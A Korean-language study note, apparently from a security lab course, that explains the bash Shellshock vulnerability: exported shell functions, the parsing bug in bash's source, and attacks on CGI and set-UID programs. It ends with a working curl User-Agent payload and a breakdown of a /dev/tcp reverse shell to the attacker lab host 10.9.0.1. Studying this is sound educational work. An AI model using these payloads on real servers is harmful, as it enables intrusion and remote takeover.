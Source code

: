 
- 배경 : 쉘 함수
	- 쉘 프로그램은 운영 체제의 명령 줄 해석기
	- 사용자와 운영 체제 간의 인터페이스 제공
	- sh, bash, zsh 등 이 존재
	- bash 쉘은 가장 인기있는 linux 쉘 중 하나
	- 쉘 쇼크 취약점은 쉘 함수와 관련 있음
	- 예시
```shell
 $ foo() { echo "Inside Func"; }
 -> foo라는 함수를 정의
 $ declare -f foo
foo () 
{ 
    echo "Inside Func"
}
-> 함수의 정의를 확인
 $ foo
Inside Func
-> 함수 호출
 $ unset -f foo
 -> 함수 삭제
 $ declare -f foo
 -> 함수의 정의를 확인하면 아무것도 없다
```

- 자식 프로세스에 쉘 함수 전달하기
	- Approach 1 : 부모 쉘에서 함수를 정의하고 내보내면, 자식 프로세스에서 해당 함수 사용 가능
	**- 부모 프로세스도 쉘 프로세스여야 함**
	- 부모가 쉘 함수를 전달한다는 것은 자식 프로세스의 **환경 변수로써** 쉘 함수를 전달하는 것
	- ps $ x 2 로 현재 pid 확인 가능
	- 예시
```shell
$ foo() { echo "Inside Func"; }
 -> foo라는 함수를 정의
$ declare -f foo
foo () 
{ 
    echo "Inside Func"
}
-> 함수의 정의를 확인
$ foo
Inside Func
-> 함수 호출
$ export -f foo
-> 내보내기
$ bash 
-> 자식 프로세스 생성
$ ps $$
-> 자식 프로세스의 pid 나옴
$ declare -f foo
foo (){
	echo "Inside Func"
}
$ foo
Inside Func
```

- 부모 프로세스의 foo()를 unset 한다면 자식 프로세스의 foo()도 해제된다.
- Approach 2 : 환경 변수를 정의한다. 그것이 곧 차일드 배쉬 프로세스의 함수 정의가 된다.
	**- 부모 프로세스가 쉘 프로세스가 아니더라도 환경 변수만 가지고 있으면 된다**
```shell
$ foo = '() { echo "hello"; }'
$ echo $foo
() { echo "hello"; }
$ declare -f foo
-> 아직 쉘 변수 상태이므로 declare 안먹힘
$ export foo
-> export를 통해 child의 환경변수에 추가하고, shell function으로 변환
$ bash_shellshock
-> 취약한 버전의 bash를 차일드에서 실행
-------------------child------------------
$ echo $foo
-> foo는 더이상 shell 변수가 아닌, shell function이다
$ delcare -f foo
foo(){
	echo "hello"
}
$ foo
hello
```

- 두 approach 비교
	- 둘다 환경변수를 사용한다는 점에서 비슷하다
	- approach 1은 부모 쉘이 새 프로세스를 생성했을 때, 각 exported function definition을 환경변수로써 전달한다
	- 자식 프로세스가 bash를 실행하면 bash는 환경 변수를 함수 정의로 다시 해석 =. approach 2
	- approach 2는 부모 프로세스가 쉘 프로세스일 필요가 없다 → 환경변수만 사용 가능하면 됨

- shellshock vulnerability
	- 부모 프로세스는 환경 변수를 통해 자식 쉘 프로세스에 함수 정의 전달
	- 이때 구문 분석 논리 버그로 인해 bash는 변수에 포함된 일부 명령 실행
```shell
$ foo='() {echo "hello";}; echo "attack";'
$ echo $foo
() { echo "hello world"; }; echo "attack";
$ export foo
$ bash_shellshock
-> run bash (vulnerable ver)
attack
-> extra command gets executed!
-----------------child--------------------
$ echo $foo
-> shell function이므로 무응답
$ declare -f foo
foo (){
	echo "hello"
}
```

- bash code의 문제점
``` c
void initialize_shell_variables (char** env,int privmode) {

	if (privmode == 0 && read_but_dont_execute ==0 && STREQN ("() (",string,4)))
}
-> parsing하며
foo = () {echo "hello";}; echo "extra";를
foo () {echo "hello";}; echo "extra";로
코드를 전환한다 (등호 없애기)

parse_and_execute(temp_string, name, SEVAL_NONINT | SEVAL_NONIST);
-> 전환된 코드에서 세미콜론을 기준으로 foo(){echo "hello";} 실행 후 echo "extra"를 실행한다
```

- 위의 두 부분이 shellshock vulnerability이다
- shellshock vulnerability를 발생시키는 두 요인
	- 타겟 프로세스는 공격자에 의해 설정된 환경 변수를 가지고 있어야 함 (echo “attack” 등) 
	- 타겟 프로세스가 bash shell을 trigger 해야함
	  (bash_shellshock 등)
	- 타겟 프로세스가 SetUID 프로그램일 시 더욱 치명적일 것
- CGI 프로그램에 대한 Shellshock 공격
	- CGI는 웹 서버가 동적으로 웹 페이지를 생성하는 실행 프로그램을 실행하는데 사용
	- CGI 프로그램은 쉘 스크립트를 사용하며, bash 사용 시 shellshock에 취약할 수 있음
- CGI 프로그램을 이용한 공격 방법
	- 웹 서버가 CGI 프로그램 호출
		- 사용자가 CGI url을 아파치 웹서버에 보낼 때 아파치는 요청을 확인하고, cgi 요청인 경우 fork()를 사용해 새 프로세스를 시작하고, exec()함수를 사용해 cgi 프로그램 실행
		- cgi 프로그램이 #! /bin/bash_shellshock으로 시작하면, exec은 실제로 /bin/bash_shellshock 실행해 쉘 스크립트 실행
	- 사용자 데이터가 cgi 프로그램에 전달
		- 아파치가 자식 프로세스를 생성할 때 bash 프로그램(자식 프로세스)에 모든 환경 변수를 제공
		- curl -A 옵션을 사용해 사용자 Agent 필드를 원하는 값으로 변경 가능
	- shellshock 공격 실행
		- 악의적인 명령을 포함한 환경 변수를 설정해 공격 실행
		- 기본적으로 웹 서버는 우분투에서 www-data 사용자 id로 실행 → 이를 통해 서버를 완전히 장악 할 수는 없지만, 몇가지 피해를 줄 수 있는 작업 수행 가능
		- 예시) 리버스 쉘 생성
			- 공격자는 자신의 머신(10.9.0.1)에서 netcat 명령어를 실행해 리버스 쉘 연결을 기다림
			- 공격자는 curl -A를 통해 user-agent 헤더에 악성 명령어 포함
			- 피해자 웹 서버 컨테이너 쉘에서 특정 명령어 실행해 리버스 쉘 생성
			- 악성 명령어 포함된 환경변수 받은 후 배쉬는 환경 변수를 실행
			- 명령어 실행 후, 공격자는 피해자 웹 서버(10.9.0.80)에서 연결 받음
			- 이후 공격자는 서버 머신에서 원하는 명령어 실행 가능
	- docker 명령어
		- docker-compose build: 이미지 빌드
		- docker-compose up: 서비스 시작
		- docker-composer down: 서비스 중지
		- docker ps: 실행중인 docker 컨테이너 id 목록
		- docksh <id> : id의 컨테이너 쉘 획득
	- shellshock attack on set-uid
		- export foo = ‘() { echo “hello” }; /bin/sh’

~# /bin/bash -i
	bash 쉘을 인터렉티브 모드로 실행
	사용자가 입력을 받을 수 있는 쉘을 의미
>& /dev/tcp/10.9.0.1/9090
	표준 출력을 리다이렉트. 파일 디스크립터 1이 /dev~로 리다이렉트
	tcp연결. 공격자의 ip주소와 공격자의 포트
0<&1
	표준 입력인 0
2>&1 
	표준 에러인 2
curl -A “() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 ”